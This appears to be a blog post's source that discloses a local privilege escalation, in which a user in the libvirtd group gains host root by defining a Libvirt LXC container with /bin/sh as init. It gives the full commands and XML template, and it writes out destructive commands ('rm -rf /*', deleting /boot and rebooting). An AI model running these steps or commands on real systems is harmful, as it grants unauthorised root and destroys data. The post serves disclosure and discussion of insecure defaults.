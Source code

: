 ```yaml
---
layout: post
title: Linux Container Madness
---
```


(...or How I Got Root in Less than 5 Minutes)

**Update**: This has nothing to do with Docker. My mistake - the concern is between LXC and Libvirt. Thanks to Wes Felter for pointing this out in the comments.

I'm unsure if this is actually a vulnerability or just a usability problem with the normal behaviour of [LXC](https://linuxcontainers.org/)/[Libvirt](https://libvirt.org/). Nevertheless, this seemingly harmless template file seems to cause **A LOT** of worry, as it allowed me to elevate privileges on the host system from an ordainary user account. I imagine new users of containers, like myself, should be more concerned about how safe these defaults really are.

If you want to try this out, then here is the preamble if you are running a Debian-based Linux. In this case I am running Ubuntu 14.04.1. 
{% highlight bash %}
admin@host:~$ sudo apt-get install docker virt-manager
{% endhighlight %}

Create an unprivileged user, but with access to the `libvirtd` group:
{% highlight bash %}
admin@host:~$ sudo useradd -G libvirtd user 
admin@host:~$ sudo passwd user 
{% endhighlight %}
Now you should login as the ordinary user. Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. at /tmp/container.xml

{% highlight xml %}
<domain type='lxc'>
	<name>test</name>
	<memory>102400</memory>
	<os>
		<type>exe</type>
		<init>/bin/sh</init>
	</os>
	<devices>
		<console type='pty'/>
	</devices>
</domain>
{% endhighlight %}

Import the template into Libvirt:
{% highlight bash %}
user@host:~$ virsh define container.xml
{% endhighlight %}

Start the container. Make sure you have the Libvirt environment variable exported to work with LXC (e.g. `LIBVIRT_DEFAULT_URI=lxc:///`), such that Libvirt doesn't go looking for Xen or KVM.

{% highlight bash %}
user@host:~$ export LIBVIRT_DEFAULT_URI=lxc:///
user@host:~$ virsh start test
user@host:~$ virsh console test
{% endhighlight %}

And now try to run the **bash** shell:

{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
# bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. Without any prompt for a superuser password. 
What kind of messed up world is this? I can read/write to any file on the host:

Provide devastation:
{% highlight bash %}
root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively just cause a bit of downtime:

{% highlight bash %}
root@host:/# rm /boot/*; reboot;
{% endhighlight %}

You can access a lot of the system programs in /bin, but it's trivial to add yourself to the `sudoers` group instead. 
Is it possible to be careful with LXC? It doesn't seem safe for mortals and is hardly encouraging. Like what Dan Walsh said in a recent article, it seems that "containers do not contain". At least not without a lot of experience and carefully crafted configs. It would be a shame if such obscure semantics will let down the overall usability of the platform.

Thoughts are welcomed. Especially from LXC magicians - what are the semantics behind this configuration file? Privileges by default? My user had no superuser access...I expect them to remain that way. 

